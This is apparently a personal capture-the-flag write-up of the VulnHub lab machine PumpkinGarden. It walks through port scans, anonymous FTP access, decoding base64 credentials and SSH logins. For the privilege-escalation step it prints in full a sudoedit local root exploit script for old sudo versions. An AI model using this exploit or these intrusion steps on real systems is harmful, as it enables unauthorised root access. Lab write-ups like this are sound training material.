 ## Mission-Pumpkin v1.0: PumpkinGarden

The series took my eye on vulnhub, so I decided to [check them out.](https://www.vulnhub.com/?q=pumpkin) 

![Image](/img/PumpkinGarden-Screenshot-10.png)

### Finding out the IP-Adress

This time it was very easy - the vm itself showed it on the welcome screen.

The IP I had to deal with was 192.168.178.59

### Looking for open doors

I fired up Zenmap (yeah I know, but I really like the GUI) to take a closer look at open ports.
![img](/img/PumpkinGarden-Screenshot-19.png)

### FTP-Server

So there is nothing but a ftp-server. Let's check it out.

vsftp (very secure ftp) supports often an anonymous login. Thats what I tried first:

![img](/img/PumpkinGarden-Screenshot-13.png)

Because I never worked with ftp like this before i messed up with the commands a little.
But in the end I got what I wanted.

![img](/img/PumpkinGarden-Screenshot-12.png)

That note.txt said:
```markdown
Hello Dear! 
Looking for route map to PumpkinGarden? I think jack can help you find it.
````
Who the heck is Jack?
Maybe this is a username or something like that. I'll save that for later.

### Are there any other open ports?

Because I didn't know what to search for, I decided to fire up Zenmap again, but this time with a larger portrange.
Bingo!
![img](/img/PumpkinGarden-Screenshot-14.png)

Now I got a fileserver, a webserver and ssh. Thats a step forward. 

### Webserver

Let's check out the webserver.
![img](/img/PumpkinGarden-Screenshot-15.png)

It says `the route map to PumpkinGarden is somewhere under the hood`. 

That made me take a closer look at the sourcecode.

![img](/img/PumpkinGarden-Screenshot-16.png)

That went well. But what does it mean? This ist an absolute beginner vm, so I didn't expect it's talking about steganography.
I took a closer look at the image, but found nothing. Except the path where it is stored.
`192.168.178.59:1515/images`
![img](/img/PumpkinGarden-Screenshot-18.png)

`hidden_secret` sounds good. After opening that directory, I found a textfile (clue.txt).

![img](/img/PumpkinGarden-Screenshot-1.png)

That looks like a hash or some other type of decoded text. I ran it through hash-identifier, but there were no results.
Next possibility that came to my mind was base64.

`echo c2NhcmVjcm93IDogNVFuQCR5 | base64 -d`

Voilá `scarecrow : 5Qn@$y`

That looks like a set of credentials. 

### SSH

Maybe they work for SSH?

![img](/img/PumpkinGarden-Screenshot-2.png)

Oh yes, they do. First big step is done, were inside of the vm.

After running the `ls -la` Command, I recognized a file called note.txt.
![img](/img/PumpkinGarden-Screenshot-3.png)

Goblin? What for a goblin? Is this another username for ssh?
A quick check of `/etc/passwd` revealed that I assumed this correctly.
![img](/img/PumpkinGarden-Screenshot-4.png)

Let's try if that awkward string is the password for goblin.
![img](/img/PumpkinGarden-Screenshot-5.png)

I'm running `ls -la` again and was presented with another note.txt.
![img](/img/PumpkinGarden-Screenshot-6.png)

### Privilege escalation

That sounds very good, but unfortunately it was a dead end because the site threw up a 404 Error.
Damn! After a couple of minutes spending on google I found out that this exploit was a bash script, which escalates our privileges to root.
Here's the script:
````
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo "usage ./sudoxpl.sh <file you have permission to edit>"
exit
fi
# cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
echo ALEX-ALEX
su
/bin/su
/usr/bin/su
_EOF
chmod a+x ./sudoedit $1
````
I went to `/tmp` to create the file and run it, but it didn't work.

Why? Maybe I should run this as scarecrow.

Nope, that won't work eiter. But what now?

I logged in again as goblin an run `ps -aux` which shows all current running processes.

There was a damn script running, which empties `/tmp` and `/home/goblin` every 15 seconds.

Ok, I had to create the script, change the permissions that I could execute it and run it within 15 secs.

I needed a few tries, but with the correct commands in my bash history I could accomplish that.

![img](/img/PumpkinGarden-Screenshot-7.png)

# BAM there it is - the root shell!

Running `ls -la` again showed me that there is a PumpkinGarden_Key file.
![img](/img/PumpkinGarden-Screenshot-8.png)

This is a base64 string again. So i echoed it into the base64 decoder.

![img](/img/PumpkinGarden-Screenshot-9.png)

That's it! I really had fun with that box! Can't wait to take a closer look at part II of the series.

Thank you for reading and happy pwning!

Contact -> [Twitter](https://twitter.com/_the_someone)
